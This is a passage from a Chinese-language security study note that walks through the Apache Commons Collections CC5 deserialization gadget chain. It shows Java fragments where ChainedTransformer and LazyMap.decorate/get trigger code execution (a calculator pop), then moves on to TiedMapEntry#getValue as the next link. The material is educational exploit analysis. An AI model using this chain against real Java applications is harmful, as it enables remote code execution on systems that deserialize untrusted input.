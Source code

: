 ```java
        };
        Transformer chain = new ChainedTransformer(transformers);
        chain.transform(null);
    }
}
```

![image](https://github.com/reidmu/sec-note/assets/84888757/bc0a0c50-6e61-4744-bcb3-232e81a69d4d)

## 2.3 LazyMap#get

现在看第二个问题：

如何自动执行 `invokerTransformer.transform()` ？  

答： 应该向前找，谁调用了这个危险方法 。

右键 `Find Usages`，找到 `LazyMap` 和 `TransformedMap` 都调用了该危险方法。

此次我们要看的是 `LazyMap#get` 方法。

在 `org.apache.commons.collections.map.LazyMap#get` 中调用了 `transform()`

![image](https://github.com/reidmu/sec-note/assets/84888757/654be176-fe7d-4734-93ec-742af50218a4)

看这个 `LazyMap` 类的 `factory` 字段和构造方法。

<div align=center><img src="https://github.com/reidmu/sec-note/assets/84888757/a092920b-c32c-4325-b151-252dfa32c390" /></div>

<div align=center><img src="(https://github.com/reidmu/sec-note/assets/84888757/8c1dcc2d-9998-4dcf-b300-0422cef214f3" /></div>


`factory` 字段是 `final` 、 `protected` 修饰，且 `LazyMap` 类的构造方法都是 `protected` 的，但是有一个 `public` 的方法 `decorate()` 来生成 `LazyMap` 类对象，那么就可以构造出如下代码：

```java
HashMap hashMap = new HashMap();
Map lazymap = LazyMap.decorate(hashMap, chain);
lazymap.get("test");	//执行这个就会弹出计算器  lazymap.get() -> InvokerTransformer.transform()
```

![image](https://github.com/reidmu/sec-note/assets/84888757/f0c8140c-fe82-440a-b9ed-3a357b861e25)


现在再寻找哪里调用了 `LazyMap` 的` get()` 方法。

## 2.4 TiedMapEntry#getValue

`org.apache.commons.collections.keyvalue.TiedMapEntry#getValue` 调用了 `LazyMap#get` 。

（截图好长，直接放 CC5 相关的关键代码部分）

📕 TiedMapEntry.java

```java
private final Map map;
private final Object key;

public TiedMapEntry(Map map, Object key) {
    this.map = map;
    this.key = key;
}
public Object getKey() {
    return this.key;
}
public Object getValue() {
    return this.map.get(this.key);
}
public String toString() {
```